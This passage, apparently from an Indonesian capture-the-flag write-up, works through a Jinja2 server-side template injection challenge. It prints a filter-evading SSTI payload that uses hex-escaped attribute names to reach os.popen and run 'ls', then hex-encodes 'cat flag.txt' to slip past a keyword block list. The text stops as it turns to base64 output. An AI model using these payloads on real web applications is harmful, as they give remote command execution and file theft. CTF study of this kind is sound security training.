


Diberikan link dan source dari `app.py`, langsung gw review source nya, dan web ini terlihat seperti challenge `SSTI` pada umum nya tapi terdapat hal yang ter `blocked`


langsung gw buat payload SSTI nya untuk bypass `blocked syntax` dan seperti ini payload untuk `ls`

```py
({({lipsum:1}|list|map(**{'\x61\x74\x74\x72\x69\x62\x75\x74\x65':'\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f'})|map(**{'\x61\x74\x74\x72\x69\x62\x75\x74\x65':'\x6f\x73'})|map(**{'\x61\x74\x74\x72\x69\x62\x75\x74\x65':'\x70\x6f\x70\x65\x6e'})|list|last)('ls'):1}|list|map(**{'\x61\x74\x74\x72\x69\x62\x75\x74\x65':'\x72\x65\x61\x64'})|list|last)()
```



karna kata `cat`, `flag` dan prefix dari flag nya juga diblock, jadi gw ganti perintah untuk `cat flag.txt` menjadi hex seperti ini

```py
\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74
```

trus untuk bypass `blocked prefix` dari flag nya, gw pake `base64` output, jadi kaya gini
